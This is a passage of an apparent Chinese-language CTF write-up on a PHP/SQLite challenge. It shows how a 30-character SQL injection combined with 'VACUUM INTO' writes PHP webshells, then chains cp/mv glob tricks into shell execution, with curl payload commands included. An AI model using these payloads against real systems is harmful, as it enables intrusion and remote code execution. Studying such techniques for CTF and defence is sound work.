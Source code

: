 題目長這樣

```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox) or die("err?");

    $msg = @$_GET['msg'];
    if (isset($msg) && strlen($msg) <= 30) {
        usleep(random_int(133, 3337));

        $db = new SQLite3(".db");
        $db->exec(sprintf("
            CREATE TABLE msg (content TEXT);
            INSERT INTO msg VALUES('%s');
        ", $msg));
        $db->close();

        unlink(".db");
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    } else {
        highlight_file(__FILE__);
```

要你拿 rce 拿 shell ，有一個裸的 SQLi 但限制 30 字，我們可以利用 sqlite 的 `VACUUM INTO` 來寫檔，經過極限的壓縮，最小可以寫出一個可以執行 3 個字 shell 指令 php 的 SQLi EX: ``<?=`cat`;');VACUUM INTO('c.php``

如果說可以執行四個字就可以用 [2017 orange 出的 4 字 php RCE 解掉了](https://github.com/orangetw/My-CTF-Web-Challenges?tab=readme-ov-file#babyfirst-revenge-v2) 所以這邊想辦法讓能執行的指令長度變長，後來想到我可以用 SQLi 寫檔寫出一組 cp 或 mv 的指令後去蓋原本存在的 php 檔來讓我能跑的指令長度變長，比如：

```bash
curl "$1/?msg=$(urlencode "');VACUUM INTO('cp")"
curl "$1/?msg=$(urlencode '<?=`ip add`;'"');VACUUM INTO('z")"
curl "$1/?msg=$(urlencode '<?=`*`;'"');VACUUM INTO('z.php")"
curl "$1/sandbox/$2/z.php"
curl "$1/sandbox/$2/z.php"
```

這樣就成功把能執行的指令長度變長了，而且還不需要 RCE 寫檔建 gadget，只需要 SQLi 寫檔就好。

所以流程就是：

1. 寫檔 `cp`
2. 寫檔 `z` 內容為 ``<?=`ls>_`;``
3. 寫檔 `z.php` 內容為 ``<?=`*`;``
4. 瀏覽 `z.php` 觸發 `*` 會執行 `cp z z.php` 將 `z.php` 的內容改為 ``<?=`ls>_`;``
5. 寫檔 `cz` 內容為 ``<?=`sh _`;``
6. 寫檔 `cz.php` 內容為 ``<?=`c*`;``
7. 瀏覽 `cz.php` 觸發 `c*` 會執行 `cp cz cz.php` 將 `cz.php` 的內容改為 ``<?=`sh _`;``
8. 寫檔 `mv`
9. 寫檔 `mz` 內容為 ``<?=`sh x`;``
10. 寫檔 `mz.php` 內容為 ``<?=`m*`;``
11. 瀏覽 `mz.php` 觸發 `m*` 會執行 `mv mz mz.php` 將 `mz.php` 的內容改為 ``<?=`sh x`;``
12. 寫檔 `ls -t>x`
13. 瀏覽 `z.php` 觸發 `ls>_` 會將以下內容寫入 `_` 檔案
```bash
cp
cz
cz.php
ls -t>x
mv
mz.php
z
z.php
```